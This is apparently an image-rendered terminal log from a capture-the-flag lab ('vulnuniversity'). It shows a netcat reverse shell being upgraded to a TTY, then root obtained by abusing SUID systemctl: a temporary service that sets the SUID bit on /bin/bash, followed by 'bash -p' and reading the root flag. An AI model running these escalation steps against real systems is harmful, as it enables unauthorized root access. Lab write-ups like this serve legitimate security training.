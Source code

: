 ```bash
www-data@vulnuniversity:/dev/shm$ python3 -c 'import pty;pty.spawn("/bin/bash")'
<v/shm$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@vulnuniversity:/dev/shm$ ^Z
zsh: suspended  nc -lvnp 1111

┌──(kali㉿kali)-[~/thm]
└─$ stty raw -echo;fg
[1]  + continued  nc -lvnp 1111

www-data@vulnuniversity:/dev/shm$
www-data@vulnuniversity:/dev/shm$ TF=$(mktemp).service
www-data@vulnuniversity:/dev/shm$ echo '[Service]
> Type=oneshot
> ExecStart=/bin/sh -c "chmod +s /bin/bash"
> [Install]
> WantedBy=multi-user.target' > $TF
www-data@vulnuniversity:/dev/shm$ /bin/systemctl link $TF
Created symlink from /etc/systemd/system/tmp.RaN1EzZW4A.service to /tmp/tmp.RaN1EzZW4A.service.
www-data@vulnuniversity:/dev/shm$ /bin/systemctl enable --now $TF
Created symlink from /etc/systemd/system/multi-user.target.wants/tmp.RaN1EzZW4A.service to /tmp/tmp.RaN1EzZW4A.service.
www-data@vulnuniversity:/dev/shm$ /bin/bash -p
bash-4.3# id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
bash-4.3# cat /root/root.txt
a58ff8579f0a9270368d33a9966c7fd5
```
